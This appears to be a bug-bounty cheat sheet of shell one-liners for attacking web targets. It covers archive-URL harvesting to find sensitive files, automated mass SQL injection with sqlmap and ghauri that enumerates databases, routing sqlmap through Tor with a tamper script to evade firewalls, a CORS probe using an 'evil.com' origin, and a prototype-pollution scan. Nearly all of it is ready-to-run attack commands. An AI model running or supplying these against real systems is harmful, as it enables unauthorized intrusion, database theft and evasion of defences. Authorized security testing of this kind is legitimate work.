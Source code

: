 ## ffuf json to txt output
```
cat output.json | jq | grep -o '"url": "http[^"]*"' | grep -o 'http[^"]*' | anew out.txt

```
**Search for Sensitive files from Wayback**
```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep -color -E ".xls | \\. xml | \\.xlsx | \\.json | \\. pdf | \\.sql | \\. doc| \\.docx | \\. pptx| \\.txt| \\.zip| \\.tar.gz| \\.tgz| \\.bak| \\.7z| \\.rar"
```
-------------------
## SQLi:
```
cat subs.txt | (gau || hakrawler || katana || waybckurls) | grep "=" | dedupe | anew tmp-sqli.txt && sqlmap -m tmp-sqli.txt --batch --random-agent --level 5 --risk 3 --dbs &&
for i in $(cat tmp-sqli.txt); do ghauri -u "$i" --level 3 --dbs --current-db --batch --confirm; done
```
***Bypass WAF using TOR***
```
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor --dbs --random-agent --tamper=space2comment
```
***find which host is vuln in output folder of sqlmap/ghauri***
``root@bb:~/.local/share/sqlmap/output#``
```
find -type f -name "log" -exec sh -c 'grep -q "Parameter" "{}" && echo "{}: SQLi"' \;
```
----------------
## CORS:
```
echo target.com | (gau || hakrawler || waybackurls || katana) | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```
---------------
## Prototype Pollution:
```
subfinder -d target.com -all -silent | httpx -silent -threads 100 | anew alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```
-------------
## JS Files:
### Find JS Files:
```
cat target.txt | (gau || hakrawler || waybackurls || katana) | grep -i -E "\.js" | egrep -v "\.json|\.jsp" | anew js.txt
```
```
while read -r url; do
  if curl -s -o /dev/null -w "%{http_code}" "$url" | grep -q 200 && \
     curl -s -I "$url" | grep -iq 'Content-Type:.*\(text/javascript\|application/javascript\)'; then
    echo "$url"
  fi
done < urls.txt > js.txt
```